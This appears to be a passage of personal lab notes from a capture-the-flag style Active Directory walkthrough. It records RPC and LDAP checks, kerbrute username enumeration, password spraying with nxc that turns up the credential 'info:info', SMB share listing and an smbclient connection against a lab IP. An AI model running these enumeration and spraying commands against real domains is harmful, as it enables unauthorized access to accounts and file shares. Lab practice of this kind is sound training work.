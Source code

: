 ![[PG/Active Directory/attachments/Pasted image 20250708220732.png]]

# RPC 

![[PG/Active Directory/attachments/Pasted image 20250708220953.png]]
- logged in but no privvies

# LDAP 

![[PG/Active Directory/attachments/Pasted image 20250708221243.png]]
- no privileges here either 

# Kerberos 

Kerbrute 

```
kerbrute  userenum -d hokkaido-aerospace.com --dc 192.168.194.40 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 100
```

users.txt
```
info
administrator
discovery 
maintenance
```

Retrying nxc with user list 

```
nxc smb 192.168.194.40 -u users.txt -p users.txt 
```

![[PG/Active Directory/attachments/Pasted image 20250709000450.png]]
- got a match `info:info`

```
nxc smb 192.168.194.40 -u users.txt -p users.txt --shares
```
![[PG/Active Directory/attachments/Pasted image 20250709000542.png]]
- and some interesting smb shares 

# Read SMB Shares

```
smbclient -U 'info' //192.168.194.40/homes
```
